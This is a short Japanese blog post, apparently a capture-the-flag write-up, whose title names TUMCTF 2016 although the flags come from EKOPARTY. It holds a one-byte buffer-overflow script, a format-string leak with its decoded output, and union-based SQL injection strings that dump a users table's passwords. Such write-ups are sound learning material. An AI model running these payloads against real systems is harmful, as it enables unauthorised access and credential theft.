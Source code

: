 ```yaml
---
layout: post
title: TUMCTF 2016 writeup
---
```


CTF wo Suruで参加しました. 850ptsで, 110/721位でした.

時間なくてあまり参加出来なくて, 頭付いてないので問題も全然解けなかったです.

学園祭の準備とかダンス部とかで, ここ1ヶ月くらい何もしてなくて何もしてないです.

11/12にサイバー甲子園ってのあるんですけど, 何もしなさすぎて最下位になりそう.

はい, writeup書いていきます.

web25, web50, pwn25, pwn100しか解いてないです.

web100途中まで解いて終わりです.

## web25

robots.txt

`EKO{robot_is_following_us}`


## web50

```
$ curl -I ctf.ekoparty.org
HTTP/1.1 301 Moved Permanently
Server: EKO{this_is_my_great_server}
Date: Thu, 27 Oct 2016 05:51:15 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: https://ctf.ekoparty.org/
```

`EKO{this_is_my_great_server}`


## Pwn 25

```python=
from No___Op import *

target = "9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:55000"

c = Pwning( target ) 

payload  = "A" * 24
payload += "\xf3"

c.write(payload)

c.dbg_shell()
```

`EKO{Welcome_to_pwning_challs_2k16}`

## Pwn 100

```bash
$  nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x[
Invalid key: AAAA 0 a 0 0 0 a 0 454b4f7b 4c614269 67426566 3072647d 0 41414141 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025[

Please input the secret key: 
Invalid key: 

Please input the secret key: ^C
[tsun@host-163-44-172-213 tmp]$ python
Python 2.6.6 (r266:84292, Aug 18 2016, 15:13:37) 
[GCC 4.4.7 20120313 (Red Hat 4.4.7-17)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ''.join('454b4f7b 4c614269 67426566 3072647d'.split()).decode('hex')
```

`EKO{LaBigBef0rd}`


## web 100(解けなかった)

`1' union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'information_schema';#`

から `users` というテーブルが見つかる

`1' union select 1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 0x7573657273;#`

`id,username,password` というカラム

`1' union select 1,group_concat(password) from users;#`


* * *

ダメです！ｗ
